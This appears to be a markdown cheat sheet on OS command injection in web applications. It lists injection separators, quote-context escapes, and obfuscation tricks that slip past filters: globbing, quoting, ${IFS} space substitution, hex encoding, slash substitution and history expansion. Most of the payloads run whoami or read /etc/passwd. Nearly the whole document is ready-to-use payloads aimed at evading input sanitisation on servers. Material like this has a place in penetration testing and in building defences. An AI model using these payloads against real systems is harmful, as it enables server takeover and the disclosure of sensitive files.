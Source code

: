# Command injection

Abuse of functionality in web applications, where it is possible to inject arbitrary commands and takeover entire server.
Vulnerability often happens while using 'dangerous' functions that have ability to execute commands like PHP's system, shell_exec, passthru, exec. 

### Injection sequences
`;whoami;`  
`&whoami`  
`&&whoami`  
`|whoami`   
`||whoami`  
`%0awhoami`  

Unix-only  
`` ;`whoami`; ``  
`;$(whoami);`  

### Contexts
Depending on vulnerable functionality, escaping the code in order to inject commnands might be necessary.  
`';whoami`  
`');whoami`   
`");whoami`  
...  

### Keyword bypass
Different way of executing 'whoami' command. These could bypass sanitisations.  
`/usr/bin/wh?ami`  
`/usr/bin/who*mi`  
`/usr/bin/whoam[i]`  
`'w'h'o'a'm'i`  
`"w"h"o"a"m"i`  
`\w\h\o\a\m\i`  
`who''ami`  
`who""ami`   
`` w`u`h`u`o`u`a`u`m`u`i ``  
`w$(u)h$(u)o$(u)a$(u)m$(u)i`  

### Space bypass  
`CAT${IFS}/etc/passwd`  
`cat${IFS%??}/etc/passwd`    
`cat\t/etc/passwd`  
`{cat,/etc/passwd}`   
`X=$'cat\x20/etc/passwd'&&$X`  
`IFS=];a=cat]/etc/passwd;$a`  

With undefined variable combined with historic command reference.  
`$undefined $undefined`  
`cat!-1/etc/passwd`  

### Hex encoding bypasses
All of these execute 'cat /etc/passwd'.  
`` cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"` ``  
`` `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'` ``  
`a=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $a`  
`` cat `xxd -r -p <<< 2f6574632f706173737764` ``  
`` cat `xxd -r -ps <(echo 2f6574632f706173737764)` ``

### Slash and Backslash bypass
`cat ${PWD:0:1}etc${PWD:0:1}passwd`  
`cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd`   

### Misc execution tricks
Through '$0' sequence.  
`echo whoami|$0`  

Through historic commands. '!!' and '!-1' equals to last command executed, '!-2', second to last, etc..  
`ami`    
`who`  
`!-1!-2`
